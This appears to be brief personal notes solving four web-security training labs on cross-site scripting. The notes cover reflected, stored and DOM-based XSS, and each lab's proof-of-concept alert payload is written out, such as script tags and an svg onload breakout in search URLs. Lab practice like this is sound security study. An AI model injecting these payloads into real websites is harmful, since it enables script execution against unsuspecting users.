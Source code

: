 # 1 Reflected XSS into HTML context with nothing encoded

https://ac191f6f1fb8d6b4c0b4b4a4009000d1.web-security-academy.net/?search=<script>alert(1234)</script>

# 2 Stored XSS into HTML context with nothing encoded

<script>alert(1)</script>

# 3 DOM XSS in document.write sink using source location.search

document.write('... <script>alert(document.domain)</script> ...');

https://ac6b1f671f105755c027459b007f00ca.web-security-academy.net/?search="><svg+onload=alert(1234)+>

# 4 DOM XSS in innerHTML sink using source location.search

https://acda1f821fd6dccbc0400cf5008c0070.web-security-academy.net/?search="><svg+onload=alert(1234)>


